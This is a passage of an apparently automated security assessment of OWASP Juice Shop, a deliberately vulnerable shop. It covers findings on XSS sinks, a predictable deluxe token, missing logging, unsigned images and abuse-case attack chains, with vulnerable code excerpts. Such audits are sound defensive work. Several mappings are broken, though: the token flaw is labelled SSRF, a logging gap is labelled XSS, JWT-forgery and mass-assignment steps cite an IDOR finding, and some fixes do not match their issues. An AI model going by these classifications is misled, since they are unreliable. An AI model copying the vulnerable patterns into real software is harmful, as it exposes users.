**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + MarsDB)  ·  **Location:** `models/user.ts:101`

**Issue:** The `deluxeToken` field is computed deterministically from the user's email address by `security.deluxeToken(email)` (called in `data/datacreator.ts:140`). The algorithm is open-source and available in `lib/insecurity.ts`.

Any customer-tier user can compute their own deluxeToken offline by running the same function with their email, then submit it to any endpoint that grants deluxe privileges in exchange for a valid deluxeToken value. Any registered user can self-grant deluxe-tier privileges by computing their own deluxeToken, bypassing the paid upgrade path.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `deluxeToken` is a DataTypes.STRING field stored without encryption; its value is deterministically derived from the user's email via a public algorithm.

```typescript
// models/user.ts:101
        }
      },
      deluxeToken: {
        type: DataTypes.STRING,
        defaultValue: ''
```

**Fix:** Switch to a cryptographically secure RNG (`crypto.randomBytes` / OS `/dev/urandom`) → ❷ [M-053](#m-053) — Replace deterministic deluxeToken with a cryptographically random secret stored as a non-derivable token

**Classification:** Server-Side Request Forgery · [CWE-330](https://cwe.mitre.org/data/definitions/330.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:132`

**Issue:** The `trustProductDescription()` method at `search-result.component.ts:130-134` iterates all product records returned by the API and calls `this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)` on each description. If any product description in the database contains JavaScript (injected via the backend's intentionally vulnerable product edit endpoint), it executes in every user's browser when the search results page renders.

An attacker with the ability to modify a product description (e.g. via a backend SQL injection or admin account compromise) achieves persistent XSS affecting all authenticated users. An attacker who stores malicious HTML in a single product description can steal session tokens from all users who load the shop's product listing.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - Line 132 unconditionally wraps every product description in `bypassSecurityTrustHtml`, making the entire product catalog a stored XSS vector whenever any description contains script-bearing HTML.

```typescript
// frontend/src/app/search-result/search-result.component.ts:132
  trustProductDescription (tableData: any[]) { // vuln-code-snippet neutral-line restfulXssChallenge
    for (let i = 0; i < tableData.length; i++) { // vuln-code-snippet neutral-line restfulXssChallenge
      tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description) // vuln-code-snippet vuln-line restfulXssChallenge
    } // vuln-code-snippet neutral-line restfulXssChallenge
  } // vuln-code-snippet neutral-line restfulXssChallenge
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-026](#m-026) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts:170`

**Issue:** The `filterTable()` method at `search-result.component.ts:162-184` reads the `q` query parameter from the URL and passes it directly to `this.sanitizer.bypassSecurityTrustHtml(queryParam)` at line 170, assigning the result to `this.searchValue`. This value is rendered in the template via `[innerHTML]` binding.

Angular's built-in XSS protection is explicitly disabled by `bypassSecurityTrustHtml`. An attacker can steal the JWT from localStorage, exfiltrate session tokens, or perform actions on behalf of any user who visits a crafted search URL.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - Line 170 calls `bypassSecurityTrustHtml` on the raw URL query parameter `q`, which is rendered as innerHTML, confirmed by the `waitForElementsInnerHtmlToBe` assertion in `domXss.ts:60`.

```typescript
// frontend/src/app/search-result/search-result.component.ts:170
      }) // vuln-code-snippet hide-end
      this.dataSource.filter = queryParam.toLowerCase()
      this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam) // vuln-code-snippet vuln-line localXssChallenge xssBonusChallenge
      this.gridDataSource.subscribe((result: any) => {
        if (result.length === 0) {
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-027](#m-027) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/saveLoginIp.ts:18`

**Issue:** The `saveLoginIp()` handler at `routes/saveLoginIp.ts:18` reads `req.headers['true-client-ip']` - a header that is entirely attacker-controlled, not set by a trusted proxy. When `httpHeaderXssChallenge` is enabled (the default challenge mode), line 23 checks for an XSS payload and stores it unsanitized via `user.update({ lastLoginIp: lastLoginIp })` at line 32.

Even when the challenge is disabled (line 25), `sanitizeSecure()` is called on `lastLoginIp`, but this still writes the (sanitized) attacker-supplied string to the database. Persistent XSS payload stored in the lastLoginIp field - if rendered in an admin UI, executes in the admin's browser context allowing session hijacking.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `routes/saveLoginIp.ts:18` reads a fully attacker-controlled header and stores it in the database at line 32 with no validation of IP address format.

```typescript
// routes/saveLoginIp.ts:18
    const loggedInUser = security.authenticatedUsers.from(req)
    if (loggedInUser !== undefined) {
      let lastLoginIp = req.headers['true-client-ip']
      if (Array.isArray(lastLoginIp)) {
        lastLoginIp = lastLoginIp[0]
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-028](#m-028) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (11)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:16`

**Issue:** An attacker submits malicious `orderLinesData` payloads to POST `/b2b/v2/orders`. The handler at `b2bOrder.ts:16-47` contains no structured logging of the request identity (JWT sub/email), the submitted payload, or the execution outcome.

Attackers can exploit the RCE surface and deny it afterward; forensic reconstruction of the attack timeline and scope is impossible.

**Evidence:** ✓ verified - `routes/b2bOrder.ts` contains zero logging calls - no winston, morgan, or `console.log` for the security-relevant orderLinesData field or the identity of the caller.

**Fix:** ❸ [M-059](#m-059) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-056"></a><a id="f-056"></a>
#### F-056 · Improper Verification of Cryptographic Signature

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:305`

**Issue:** Both the `ci.yml` `docker` job and the `release.yml` `docker` job build and push images to DockerHub (`bkimminich/juice-shop:latest`, `:snapshot`, and version tags) without any image signing or SLSA provenance attestation. There is no `sigstore/cosign-installer` step, no `actions/attest-build-provenance`, and no `--sbom` flag on the `docker/build-push-action`.

Attackers who substitute a malicious DockerHub image cannot be detected or attributed; downstream deployments silently run compromised code.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - docker/build-push-action in both `ci.yml` and `release.yml` pushes images to DockerHub with no cosign signing step or SLSA provenance attestation present in any workflow.

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-060](#m-060) — Sign and verify release artifacts

**Classification:** Supply-Chain Integrity · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + MarsDB)  ·  **Location:** `models/index.ts:39`

**Issue:** The Sequelize instance at `models/index.ts:39` sets `logging: false`, suppressing all SQL query logs. Combined with the absence of any model-level audit hooks (no `afterCreate` / `afterUpdate` / `afterDestroy` hooks that write to a separate audit table), there is no record of which actor issued which data-mutating query, when, or with what parameters.

Data-mutating operations (user role changes, balance adjustments, order deletions) are invisible in forensic review; attackers cannot be attributed after the fact.

**Evidence:** ✓ verified - `logging: false` at `models/index.ts:39` disables all Sequelize SQL logging; no afterCreate/afterUpdate/afterDestroy audit hooks are present in any model file.

**Fix:** ❸ [M-061](#m-061) — Add security audit logging

**Classification:** Cross-Site Scripting (XSS) · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · Information Disclosure

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:286`

**Issue:** The Juice Shop Swagger UI is mounted at `/api-docs` without any authentication requirement (`server.ts:286`: `app.use('/api-docs', swaggerUi.serve, swaggerUi.setup(swaggerDocument))`). The `swagger.yml` documents the `orderLinesData` field as a free-form string and the schema includes an example payload.

Reduces attacker effort to exploit b2b-api-001 by providing complete API documentation without requiring any credentials.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `server.ts:286` mounts swagger-ui-express at `/api-docs` with no auth middleware; `swagger.yml:49` documents orderLinesData as a free-form string with a complex example.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❸ [M-062](#m-062) — Stop exposing internal information to clients

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · Error Message Disclosure

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:33`

**Issue:** When `safeEval(orderLinesData)` throws an exception that is not the infinite-loop timeout (e.g. a partial sandbox escape attempt that throws a ReferenceError or TypeError), the catch block calls `next(err)`, forwarding the raw Error object to Express's default error handler. In a development or misconfigured production environment this results in a JSON response containing the error message, which may include internal paths, the offending expression, or safeEval/vm internals.

Detailed error messages accelerate attacker iteration toward a successful sandbox escape by disclosing which expressions throw, what the execution context contains, and what the eval engine rejects.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `b2bOrder.ts:33` calls `next(err)` with the raw error from safeEval; no error sanitization or generic response is applied before forwarding.

**Fix:** Replace developer error pages with a generic message in production responses → ❸ [M-063](#m-063) — Return generic error messages to clients

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Improper Verification of Cryptographic Signature

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** The CI/CD and release pipelines build and push Docker images to DockerHub but perform no image signing or build-provenance attestation. Downstream users and deployment systems cannot verify that a pulled image was produced by this repository's CI pipeline and not substituted in transit or at the registry.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-005](#m-005) — Sign and verify release artifacts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · Untrusted npm Install/Postinstall Scripts Enabled

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Instances (2):** `Dockerfile:5`, `package.json:88`

**Issue:** The production npm install in the Dockerfile builder stage runs without --ignore-scripts. Any compromised transitive dependency publisher can execute postinstall code at image build time with whatever privileges the build user holds (root in builder stage), enabling silent backdoor injection into the shipped image.

**Evidence:** ✓ verified

**Fix:** ❸ [M-006](#m-006) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-062"></a><a id="f-062"></a>
#### F-062 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/dependabot.yml:1`

**Issue:** No .github/dependabot.yml file exists in the repository. The npm dependency tree (hundreds of packages given this is a `Node.js` application) receives no automated vulnerability-update PRs. Known-vulnerable transitive dependencies can persist undetected until a manual audit.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-007](#m-007) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-063"></a><a id="f-063"></a>
#### F-063 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Express Backend  ·  **Location:** `server.ts:309`

**Issue:** An unauthenticated attacker sends a high volume of concurrent POST `/file-upload` requests each containing a valid 200KB file (the multer limit). Without rate limiting, the server processes each upload through the XML, YAML, and ZIP parsing middleware chain.

Sustained upload floods exhaust `Node.js` event loop capacity, increasing response latency for all routes on the shared server process.

**Evidence:** ✓ verified - `server.ts:309` registers POST `/file-upload` with uploadToMemory.single('file') (multer, no rate limit); rate limiting is applied to `/rest/user/reset-password` (line 343) and login endpoints (lines 458, 465, 471) but not to the file upload route.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-064](#m-064) — Add express-rate-limit middleware to POST `/file-upload` with a low per-IP request ceiling

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-064"></a><a id="f-064"></a>
#### F-064 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:20`

**Issue:** The Socket\.IO server is initialized at line 20 with only a CORS origin option - no `maxHttpBufferSize`, no `connectTimeout`, no per-connection event rate throttling, and no connection count ceiling. Any client (unauthenticated, per realtime-channel-001) can open an unlimited number of concurrent WebSocket connections.

An attacker flooding the WebSocket endpoint with connections and events saturates the `Node.js` event loop, causing latency spikes and denial of service for all users.

**Evidence:** ✓ verified - Socket\.IO constructor at line 20 contains only cors option; no maxHttpBufferSize, connectTimeout, or per-event throttle is configured; confirmed no rateLimit/throttle/RateLimiter pattern in lib/ directory.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-065](#m-065) — Configure Socket\.IO connection limits and per-event rate throttling to prevent event-loop flooding

**Classification:** Unauthenticated Management Plane · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · Cross-Site Scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Issue:** The `parseAuthToken()` method at `last-login-ip.component.ts:33-42` decodes the locally-stored JWT and reads `payload.data.lastLoginIp`, then passes it to `this.sanitizer.bypassSecurityTrustHtml('...' + payload.data.lastLoginIp + '...')`. The lastLoginIp value originates from the server, but the JWT is stored client-side and the claim is not re-validated before HTML injection.

An attacker who can forge or modify the lastLoginIp JWT claim (via `alg:none` or direct DB access) achieves stored XSS on the Last Login IP page for the targeted account.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - Line 39 passes `payload.data.lastLoginIp` directly into a template literal wrapped in `bypassSecurityTrustHtml`, with no sanitization of the claim value.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟢 Low (4)

<a id="t-065"></a><a id="f-065"></a>
#### F-065 · Insufficient Logging

**Severity:** 🟢 Low  ·  **Component:** [C-04](#c-04) - File Upload Service  ·  **Location:** `routes/fileUpload.ts:75`

**Issue:** An attacker uploads a malicious XML file to `/file-upload`, triggering XXE file disclosure. Security incidents involving malicious uploads (XXE exploitation, zip-slip) cannot be attributed to a specific actor or timeline, hampering forensic investigation and regulatory incident response.

**Evidence:** ✓ verified - `routes/fileUpload.ts` contains zero import or call sites for the logger module; the handleXmlUpload, handleZipFileUpload, and handleYamlUpload functions emit no structured log events for upload attempts, parse outcomes, or file identifiers.

**Fix:** ❹ [M-066](#m-066) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-066"></a><a id="f-066"></a>
#### F-066 · Information Disclosure

**Severity:** 🟢 Low  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:223`

**Issue:** The e2e job in `ci.yml` injects `secrets.E2E_SOLUTIONS_WEBHOOK` as the environment variable `SOLUTIONS_WEBHOOK` into the Cypress test runner (line 223). Exposure of the solutions webhook URL enables replay attacks against the notification endpoint or disclosure of challenge-solution events to unauthorized parties.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `ci.yml` line 223 injects E2E_SOLUTIONS_WEBHOOK as a plain environment variable into the Cypress github-action step, alongside CYPRESS_RECORD_KEY that uploads logs to an external dashboard.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❹ [M-067](#m-067) — Stop exposing internal information to clients

**Classification:** Supply-Chain Integrity · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-067"></a><a id="f-067"></a>
#### F-067 · Missing HEALTHCHECK instruction

**Severity:** 🟢 Low  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Issue:** The Dockerfile does not define a HEALTHCHECK instruction. Without it, container orchestrators (Docker Compose, Kubernetes) cannot distinguish a hung or poisoned container from a healthy one, delaying detection of a compromised or crashed instance.

**Evidence:** ✓ verified

**Fix:** ❹ [M-008](#m-008) — Add a container healthcheck

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-068"></a><a id="f-068"></a>
#### F-068 · Uncontrolled Resource Consumption

**Severity:** 🟢 Low  ·  **Component:** [C-07](#c-07) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** The `ci.yml` workflow triggers on every push to all non-excluded branches. Rapid pushes by any contributor exhaust GitHub Actions CI minutes, delaying or blocking legitimate builds and security-scan jobs.

**Evidence:** ✓ verified - `ci.yml` defines no `concurrency:` block at workflow or job level, confirmed by reading the full file; every push triggers a complete new matrix run.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❹ [M-068](#m-068) — Add concurrency group with cancel-in-progress to cancel superseded workflow runs on new push

**Classification:** Supply-Chain Integrity · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

---

_**Severity annotation:** rows tagged `*(raw Critical)*` had a Critical-class impact that was capped to a lower effective severity by the triage stage (likelihood downgrade or `data/severity-caps.yaml` rule). The rendered severity is the **effective** severity used for ranking and prioritisation; the raw severity is preserved here so reviewers can re-evaluate the cap decision._

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🟠 High | ◐ Partially blocked |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ◐ Partially blocked |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ◐ Partially blocked |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🟠 High · **Verdict:** ◐ Partially blocked

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-018](#f-018) — Stored XSS — `search-result.component.ts:132` | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🟠 [F-001](#f-001) — JWT Session Token in localStorage — `login.component.ts:101` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🟠 [F-015](#f-015) — OAuth Implicit Flow Token Exposure — `login.component.ts:134`<br/>`lib/insecurity.ts:54` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-026](#m-026) — Encode output instead of bypassing the framework sanitizer (**P2**): remediating 🟠 [F-018](#f-018) — Stored XSS — `search-result.component.ts:132` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-009](#m-009) — Store session tokens in HttpOnly, Secure cookies (**P3**): remediating 🟠 [F-001](#f-001) — JWT Session Token in localStorage — `login.component.ts:101` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- ❷ [M-023](#m-023) — Replace Implicit Flow with Authorization Code + PKCE (**P2**): remediating 🟠 [F-015](#f-015) — OAuth Implicit Flow Token Exposure — `login.component.ts:134` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`lib/insecurity.ts:180` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`server.ts:483` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-014](#m-014) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — `lib/insecurity.ts:23` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`lib/insecurity.ts:159` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-014](#m-014) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11`<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-014](#m-014) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — `lib/insecurity.ts:23` | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:54` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

